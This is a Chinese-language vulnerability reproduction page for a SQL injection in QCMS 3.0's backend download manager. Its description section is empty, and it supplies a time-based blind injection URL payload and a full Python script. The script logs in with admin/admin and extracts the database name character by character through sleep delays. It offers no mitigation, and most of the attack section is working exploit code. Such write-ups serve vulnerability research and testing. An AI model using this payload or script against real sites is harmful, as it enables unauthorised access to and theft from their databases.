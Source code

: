 QCMS 3.0 sql注入漏洞
====================

一、漏洞简介
------------

二、漏洞影响
------------

QCMS 3.0

三、复现过程
------------

在后台下载管理处

![](resource/QCMS3.0sql注入漏洞/media/rId24.png)

构造payload

    http://www.0-sec.org/backend/down.html?title=1';select if(ascii(substr((select database()), 1, 1))-113, 1, sleep(5));%23

这里直接附上简单脚本

    # !/usr/bin/python3
    # -*- coding:utf-8 -*-
    # author: Forthrglory
    import requests

    def getCookie():
        url = 'http://127.0.0.1/admin.php'
        data = {
            'username':'admin',
            'password':'admin'
        }

        session = requests.session()
        res = session.post(url, data)

        return requests.utils.dict_from_cookiejar(res.cookies)

    def getDatabase(url, arr, cookies):

        str = ''
        requests.session()

        for i in range(1, 11):
            for j in arr:
                data = url + '?title=1\';select if(ascii(substr((select database()), %s, 1))-%s, 1, sleep(5));%%23' % (i, ord(j))
                # print(data)
                res = requests.get(url=data, cookies=cookies)
                # print(res.elapsed.total_seconds())
                if(res.elapsed.total_seconds() > 5):
                    str += j
                    print(str)
                    break
        print('database=' + str)


    if __name__ == '__main__':
        url = 'http://127.0.0.1/backend/down.html'
        arr = []

        for i in range(48, 123):
            arr.append(chr(i))

        cookies = getCookie()
        print(cookies)
        getDatabase(url, arr, cookies)

参考链接
--------

> https://xz.aliyun.com/t/7269
